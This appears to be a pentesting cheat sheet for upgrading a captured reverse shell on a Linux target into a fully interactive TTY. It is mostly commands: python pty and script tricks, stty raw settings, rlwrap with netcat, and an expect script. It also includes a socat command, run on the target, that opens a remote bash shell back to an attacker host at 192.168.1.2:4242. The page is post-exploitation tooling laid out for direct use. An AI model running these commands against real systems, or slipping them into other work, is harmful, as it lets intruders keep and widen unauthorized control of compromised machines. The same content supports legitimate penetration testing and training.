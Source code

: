 # Linux

## 01 - Spawn TTY Shell

### 1.1.1 - Python

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z

user@pentestos:~$ echo $TERM && tput lines && tput cols
```

- In attacker machine for `/bin/bash`

```
user@pentestos:~$ stty raw -echo
user@pentestos:~$ fg
```

- In attacker machine for `/bin/zsh`

`user@pentestos:~$ stty raw -echo; fg`

```
$ reset
$ export SHELL=/bin/bash
```

- Display the terminal colors (You can skip this step if the shell is stabilized)

```
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

### 1.1.2 - Script

- This is a universal method for GNU/Linux and Unix-like operating systems

```
$ script -qc /bin/bash /dev/null
CTRL+Z

user@pentestos:~$ echo $TERM && tput lines && tput cols
```

- In attacker machine for `/bin/bash`

```
user@pentestos:~$ stty raw -echo
user@pentestos:~$ fg
```

- In attacker machine for `/bin/zsh`

```
user@pentestos:~$ stty raw -echo; fg

$ reset
$ export SHELL=/bin/bash
```

- Display the terminal colors (You can skip this step if the shell is stablized)

```
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

### 1.1.3 - Rlwrap

- Using the GNU readline wrapper with arrow keys. You can use this when using a normal reverse shell for penetrating Windows machine

`user@pentestos:~$ rlwrap nc 192.168.0.115 80`

`user@pentestos:~$ rlwrap -r -f . nc 192.168.0.115 4242`

- `-f .` will make rlwrap use the current history file as a completion word list.

- `-r` Put all words seen on input and output on the completion list.

### 1.1.4 - Socat

- Using `socat` to spawn a shell with interactive TTY

- **Attacker**

```
user@pentestos:~$ socat file:`tty`,raw,echo=0 tcp-listen:4242
```

- **Target**

`$ socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.2:4242`

### 1.1.5 - Expect

Using `expect` to get a TTY

```bash
#!/usr/bin/expect
# Spawn a shell, then allow the user to interact with it.
# The new shell will have a good enough TTY to run tools like ssh, su and login
spawn sh
interact
```

- **Output**

```
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48257
sh: no job control in this shell
sh-3.2$ su -
su: must be run from a terminal
sh-3.2$ expect sh.exp
spawn sh
sh-3.2$ su -
Password:  mypassword
localhost ~ #
```

---
## References

- [Shells Full TTYs](https://book.hacktricks.xyz/shells/shells/full-ttys)

- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

- [Post Exploitation Without a TTY](https://pentestmonkey.net/blog/post-exploitation-without-a-tty)